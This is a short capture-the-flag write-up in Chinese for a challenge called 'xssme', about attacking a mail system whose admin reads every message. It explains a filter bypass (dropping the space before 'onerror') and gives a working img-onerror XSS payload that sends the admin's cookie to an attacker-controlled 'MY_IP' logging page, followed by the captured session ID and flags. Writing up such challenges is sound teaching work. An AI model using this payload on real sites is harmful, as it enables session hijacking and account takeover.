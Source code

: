 ## xssme (100)
### solution
稍微試了一下可以發現是一個簡單的郵件系統，admin會閱讀所有郵件，因此試著在郵件中進行XSS。
而標題欄位會進行escape，無法有效攻擊，但內文是使用過濾方式，無法使用`<script>`、`<iframe>`，但可以用`<img>`
因此試著用`<img src="#" onerror=>`進行攻擊發現` onerror`也會過濾，但拿掉前面的空白即可，因此使用XSS發送admin的cookie到自己的server上。
```js
<img src="#"onerror=javascript:document.location="http://MY_IP/log.php?c="+document.cookie>
```
得到以下回應：
```php
Array
(
    [c] => PHPSESSID=1oiprdg6u65httgspivmnpjfe6; FLAG_XSSME=FLAG{Sometimes, XSS can be critical vulnerability <script>alert(1)</script>}; FLAG_2=IN_THE_REDIS
)
```

